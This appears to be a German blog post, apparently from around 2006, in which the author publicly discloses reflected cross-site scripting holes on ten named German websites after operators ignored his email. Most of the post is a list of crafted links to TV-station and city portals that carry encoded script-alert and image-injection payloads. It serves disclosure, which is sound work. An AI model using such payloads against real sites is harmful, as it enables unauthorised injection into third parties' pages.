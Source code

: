 <html><body><p>Nachdem sich bis jetzt keiner auf meine Mail von vor 3 Tagen gemeldet hat, in der ich ein paar Seiten der XSS-Angreifbarkeit beschuldigt habe (okay, doch 2 - ein Bounce von t-online und ein "Vielen Dank für ihre Mail" von VRR.de), hier nochmal 10 (in Worten: ZEHN) nette Links, unter anderem ein paar Fernsehsender und einige (viele) Stadt-Portale.<br>
<br>
<a href="http://www.clipfish.de/searchfish.php?action=advanced_video_search&amp;word=%22%3E%3Cimg%20src=%22http://events.ccc.de/congress/2006-mediawiki//skins/trustme/23c3-logo.png%22%3E" target="_blank">clipfish.de</a><br>
<a href="http://www.vox.de/index_websuche.php?kw=%27%3E%3Cscript%3Ealert%28%22a%22%29%3C%2Fscript%3E" target="_blank">vox.de</a><br>
<a href="http://www.hr-online.de/website/suche/home/index.jsp?posted=true&amp;mode=2&amp;q=%3Cscript%3Ealert%28%22a%22%29%3C%2Fscript%3E" target="_blank">hr-online.de</a><br>
<a href="http://irc.netsplit.de/networks/listings.php?query=%3Cimg%20src=http://www.german-freakz.net/images/gf-banner.jpg%3E" target="_blank">netsplit.de</a><br>
<a href="http://www.nrw.de/cgi-bin/nrw.cgi?q=%22%3E%3Cimg%20src=%22http://events.ccc.de/congress/2006-mediawiki//skins/trustme/23c3-logo.png%22%20/%3E&amp;ok=Suche+starten" target="_blank">nrw.de</a><br>
<a href="http://www.koeln.de/ausgehen/tk/suche.php?suchtext=%22%3E%3Cimg%20src=%22http://events.ccc.de/congress/2006-mediawiki//skins/trustme/23c3-logo.png%22%3E&amp;zeitraum=woche&amp;suchen=Los" target="_blank">koeln.de</a><br>
<a href="http://hamburg.de/suche.do?schnellsuche=%3Cimg%20src=%22http://events.ccc.de/congress/2006-mediawiki/skins/trustme/23c3-logo.png%22%3E" target="_blank">hamburg.de</a><br>
<a href="http://mainz.de/WGAPublisher/online/html/default/hpkr-5xrncz.de.html?query=%3Cimg%20src=%22http://events.ccc.de/congress/2006-mediawiki//skins/trustme/23c3-logo.png%22%3E" target="_blank">mainz.de</a><br>
<a href="http://www.mannheim.de/io2/browseSearch_do.doB?search=%27%3E%3Cimg%20src=%22http://events.ccc.de/congress/2006-mediawiki/skins/trustme/23c3-logo.png%22%3E" target="_blank">mannheim.de</a><br>
<a href="http://frankfurt.de/sixcms/detail.php?id=stadtfrankfurt_eval01.c.123086.de&amp;_myvars%5B_id_listenartikel%5D=stadtfrankfurt_eval01.c.1806768.de&amp;_sprache=de&amp;_searchvars%5B_vtSearchmode%5D=fulltext_all&amp;_searchvars%5B_vtSuchwoerter%5D=--%3E+%3Cimg+src%3D%22http%3A%2F%2Fevents.ccc.de%2Fcongress%2F2006-mediawiki%2F%2Fskins%2Ftrustme%2F23c3-logo.png%22%3E&amp;suchbutton.x=11&amp;suchbutton.y=6" target="_blank">frankfurt.de</a><br>
<br>
Wie auch beim letzten Mal werde ich eine passende Mail an die Betreiber der Seiten schicken, und hoffe diesmal auf etwas mehr Reaktion.</p></body></html>